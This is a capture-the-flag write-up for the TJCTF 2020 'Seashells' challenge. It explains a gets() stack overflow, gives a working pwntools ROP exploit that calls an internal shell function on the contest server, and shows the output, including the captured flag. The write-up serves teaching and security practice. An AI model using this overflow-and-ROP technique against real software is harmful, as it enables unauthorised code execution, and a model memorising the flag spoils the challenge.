


# TJCTF 2020

## Seashells

> 50
>
> I heard there's someone [selling shells](seashells)? They seem to be out of stock though...
> 
> `nc p1.tjctf.org 8009`
>
> Written by  KyleForkBomb

Tags: _pwn_ _x86-64_ _bof_ _remote-shell_ _rop_ _gets_


## Summary

Stack overflow, then ROP to internal function that provides a remote shell.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Some mitigations in place.  GOT off the table, can blow through stack, easy ROP (no PIE), no shellcode (NX).
    
### Decompile with Ghidra



Line 13: `gets(local_12)`, 'nough said.  With no stack canary in place, it'll be easy to overwrite the return address.

_Whaaaaaaaa?_



"shell"-code, nice.  `shell` requires a parameter of `-0x2152350145414111` (`0xDEADCAFEBABEBEEF`), and can be bypassed if we wanted to hardcode an address, but since the game master(s) put in the effort for a check, we might as well honor it.  I mean, how clever of them to spell, in hex, `DEADCAFEBABEBEEF`.

`local_12` is `0x12` bytes above the return address:

```
             undefined8        RAX:8              <RETURN>
             undefined1        Stack[-0x12]:1     local_12                                
```

We just need to write out `0x12` bytes, then use a `pop rdi` gadget to set the parameter for `shell`, then call `shell`.


## Exploit

```python
#!/usr/bin/python3

from pwn import *

#p = process('./seashells')
p = remote('p1.tjctf.org', 8009)

context.clear(arch='amd64')

binary = ELF('./seashells')
shell = binary.symbols['shell']

rop = ROP('seashells')
try:
    pop_rdi = rop.find_gadget(['pop rdi','ret'])[0]
except:
    print("no ROP for you!")
    sys.exit(1)

payload  = b''
payload += 0x12 * b'A'
payload += p64(pop_rdi + 1)
payload += p64(pop_rdi)
payload += p64(0xDEADCAFEBABEBEEF)
payload += p64(shell)

p.recvuntil('Would you like a shell?')
p.sendline(payload)

p.interactive()
```

This code should be self-explanatory, however there's an extra `ret` (`payload += p64(pop_rdi + 1)`).  This is required to align the stack, see [Blind Piloting](https://github.com/datajerk/ctf-write-ups/blob/master/b01lersctf2020/blind-piloting/README.md) for a lengthly example and explanation.

Output:

```
# ./exploit.py
[+] Opening connection to p1.tjctf.org on port 8009: Done
[*] '/pwd/datajerk/tjctf2020/seashells/seashells'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loading gadgets for '/pwd/datajerk/tjctf2020/seashells/seashells'
[*] Switching to interactive mode

why are you even here?
$ cat flag.txt
tjctf{she_s3lls_se4_sh3ll5}
```
